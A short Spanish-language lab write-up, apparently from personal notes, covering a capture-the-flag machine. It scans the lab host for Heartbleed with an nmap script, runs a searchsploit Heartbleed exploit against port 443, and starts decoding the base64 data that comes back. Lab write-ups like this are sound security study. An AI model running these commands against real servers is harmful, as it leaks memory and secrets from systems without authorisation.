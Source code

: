
# Enumeracion
Usamos un script de [[NMAP Scripts]]
   ```bash
   nmap --script ssl-heartbleed -p80,443,22 10.10.10.79
   ```
   ![[Valentine10.png]]

# Explotacion

En este caso usamos un exploit de [[Apuntes Directo/Herramientas-Comandos/searchsploit|searchsploit]]
   ```bash
   searchsploit -m multiple/remote/32764.py
   python2.7 32764.py 10.10.10.79 -p 443
   ```
   ![[Valentine11.png]]

   ![[Valentine12.png]]
   Nos da una cadena en [[base64]] que la vamos a decodificar
   ![[Valentine13.png]]